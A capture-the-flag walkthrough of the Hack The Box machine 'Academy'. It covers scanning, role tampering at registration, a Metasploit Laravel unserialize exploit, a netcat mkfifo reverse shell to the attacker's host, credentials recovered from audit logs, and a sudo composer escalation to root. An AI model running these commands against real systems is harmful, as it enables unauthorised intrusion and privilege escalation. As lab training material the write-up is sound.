









## Academy

__Diffiuclty: Easy__
__Machine IP: 10.10.10.215__

## Scanning

### Nmap Scanning
- Default scan

```bash
$ nmap -sC -sV  -oN nmap/academy  10.10.10.215
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-12 16:01 EDT
Nmap scan report for 10.10.10.215
Host is up (0.096s latency).
Not shown: 992 closed ports
PORT      STATE    SERVICE      VERSION
22/tcp    open     ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp    open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
1035/tcp  filtered multidropper
1524/tcp  filtered ingreslock
2809/tcp  filtered corbaloc
3827/tcp  filtered netmpi
5633/tcp  filtered beorl
24444/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.28 seconds
```

- found domain name `http://academy.htb/`, and add it to hosts file


## Enumeration


## Gobuster

```bash
$ gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u  http://academy.htb -x php  
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://academy.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/09/12 16:20:49 Starting gobuster
===============================================================
/images (Status: 301)
/index.php (Status: 200)
/home.php (Status: 302)
/login.php (Status: 200)
/register.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
```

- Homepage


- On `register` page, request is caprtured and have one suspicious paramter sent along `roleid`



- when `roleid=0`, homepage



- Register another account , with  modified   `roleid=1`

- `Register` Request payload



- Account created successfully, now navigate to `admin.php` and log in with the registered account.

- Homepage 



- found another domain `dev-staging-01.academy.htb`, add it to `/etc/hosts`

- `dev-staging-01.academy.htb` homepage



- On examining we can notice that server is runnning `laravel`, and on `searchsploit` found a metasploit module for code execution  (`token Unserialize Remote Command Execution`)

```bash
$ searchsploit laravel
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                       |  Path
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Laravel - 'Hash::make()' Password Truncation Security                                                                | multiple/remote/39318.txt
Laravel 8.4.2 debug mode - Remote code execution                                                                     | php/webapps/49424.py
Laravel Administrator 4 - Unrestricted File Upload (Authenticated)                                                   | php/webapps/49112.py
Laravel Log Viewer < 0.13.0 - Local File Download                                                                    | php/webapps/44343.py
Laravel Nova 3.7.0 - 'range' DoS                                                                                     | php/webapps/49198.txt
PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)              | linux/remote/47129.rb
UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read                                                            | php/webapps/48166.txt
UniSharp Laravel File Manager 2.0.0-alpha7 - Arbitrary File Upload                                                   | php/webapps/46389.py
--------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                       
```

- Running metasploit

```bash
msf6 > search laravel

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/http/laravel_token_unserialize_exec  2018-08-07       excellent  Yes    PHP Laravel Framework token Unserialize Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/laravel_token_unserialize_exec

msf6 > use 0
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(unix/http/laravel_token_unserialize_exec) > show options

Module options (exploit/unix/http/laravel_token_unserialize_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   APP_KEY                     no        The base64 encoded APP_KEY string from the .env file
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Path to target webapp
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/http/laravel_token_unserialize_exec) > set rhosts http://dev-staging-01.academy.htb/
rhosts => dev-staging-01.academy.htb/
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set lhost tun2
lhost => 10.10.14.12
msf6 exploit(unix/http/laravel_token_unserialize_exec) > set VHOST dev-staging-01.academy.htb
VHOST => dev-staging-01.academy.htb
msf6 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Command shell session 1 opened (10.10.14.12:4444 -> 10.10.10.215:57648) at 2021-09-12 16:35:07 -0400
[*] Command shell session 2 opened (10.10.14.12:4444 -> 10.10.10.215:57650) at 2021-09-12 16:35:08 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> make sure to set `vhost` even though metasploit options shows not required.

- moving shell to netcat from metasploit

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 9001 >/tmp/f
```
__Result__

```bash
$ nc -lvnp  9001
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.215] 51538
/bin/sh: 0: can't access tty; job control turned off
$
```

## Privilege escalation

- on running `linpeas`, found `DBPASSWORD` 


lin:x:1005:1005::/home/g0blin:/bin/sh

- using this password we are unable to connect to db, so resued this as `ssh` with all the users in the system

- users in the system 

```bash
$ cat /etc/passwd | grep 'sh$' 
root:x:0:0:root:/root:/bin/bash
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0b
```

- Successfully able to `ssh` into with user `cry0l1t3`


__Result__

```bash
cry0l1t3@academy:~$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```

- We can see the user is part of `adm` group that means we can read the log files



- Since there are many logs, we can use a tool called `aureport`, to parse all log files

```bash
cry0l1t3@academy:/var/log$ aureport

Summary Report
======================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
Range of time in logs: 01/01/1970 00:00:00.000 - 09/12/2021 21:03:01.306
Selected time for report: 01/01/1970 00:00:00 - 09/12/2021 21:03:01.306
Number of changes in configuration: 61
Number of changes to accounts, groups, or roles: 7
Number of logins: 20
Number of failed logins: 31
Number of authentications: 75
Number of failed authentications: 11
Number of users: 5
Number of terminals: 10
Number of host names: 7
Number of executables: 11
Number of commands: 6
Number of files: 0
Number of AVC's: 0
Number of MAC events: 0
Number of failed syscalls: 0
Number of anomaly events: 0
Number of responses to anomaly events: 0
Number of crypto events: 0
Number of integrity events: 0
Number of virt events: 0
Number of keys: 0
Number of process IDs: 18576
Number of events: 116768
```

- `aureport` man page



- use `--tty` option to read keystrokes



- we can see credentials for `mrb3n`

- switching user

```bash
cry0l1t3@academy:/var/log$ su mrb3n
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n
```

- On running `sudo -l` found that user can run `composer` as `root`

```bash
$ sudo -l
[sudo] password for mrb3n: 
Sorry, try again.
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

```

- `gtfobins` has a way to abuse this functionality to elevetae privileges




__Result__

```bash
mrb3n@academy:/var/log$ TF=$(mktemp -d)
mrb3n@academy:/var/log$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:/var/log$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
```


